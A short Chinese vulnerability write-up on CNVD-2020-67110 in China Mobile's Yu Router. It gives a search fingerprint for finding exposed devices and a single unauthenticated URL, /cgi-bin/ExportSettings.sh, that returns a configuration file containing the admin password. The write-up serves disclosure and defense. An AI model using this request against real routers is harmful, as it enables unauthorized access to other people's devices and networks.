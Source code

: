 # 中国移动 禹路由 ExportSettings.sh 敏感信息泄露漏洞 CNVD-2020-67110

## 漏洞描述

中国移动 禹路由 ExportSettings.sh 存在敏感信息泄露漏洞，攻击者通过漏洞获取配置文件，其中包含账号密码等敏感信息

## 漏洞影响

```
中国移动 禹路由
```

## 网络测绘

```
title="互联世界 物联未来-登录"
```

## 漏洞复现

登录页面如下

![](images/202202162254794.png)

访问Url

```plain
/cgi-bin/ExportSettings.sh
```

![](images/202202162254659.png)

其中password为登录后台密码